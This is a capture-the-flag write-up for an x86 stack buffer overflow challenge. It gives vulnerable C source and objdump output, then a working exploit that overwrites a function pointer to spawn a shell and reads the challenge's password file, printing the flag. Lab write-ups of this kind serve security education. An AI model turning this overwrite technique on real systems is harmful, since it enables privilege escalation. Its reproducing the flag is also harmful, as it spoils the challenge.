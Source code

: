 # ELF x86 - Stack buffer overflow basic 2

Another basic stack overflow - overwrite a function pointer, no protections

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

void shell() {
    setreuid(geteuid(), geteuid());
    system("/bin/bash");
}

void sup() {
    printf("Hey dude ! Waaaaazzaaaaaaaa ?!\n");
}

void main()
{ 
    int var;
    void (*func)()=sup;
    char buf[128];
    fgets(buf,133,stdin);
    func();
}
```

| ========== MEMORY ==========                        |
| --------------------------------------------------- |
| void (*func)()                                \[4\] |
| char buf\[128\];                           \[128\]  |

```bash
app-systeme-ch15@challenge02:~$ objdump -d ch15 | grep shell
08048516 <shell>:
```

POC
```bash
app-systeme-ch15@challenge02:~$ (python -c "print('A' * 128 + 'BBBB')" ; cat ) | ./ch15
Segmentation fault
```

FINAL
```bash
app-systeme-ch15@challenge02:~$ (python -c "print('A' * 128 + '\x16\x85\x04\x08')" ; cat ) | ./ch15
whoami
app-systeme-ch15-cracked
cat .passwd
B33r1sSoG0oD4y0urBr4iN
```
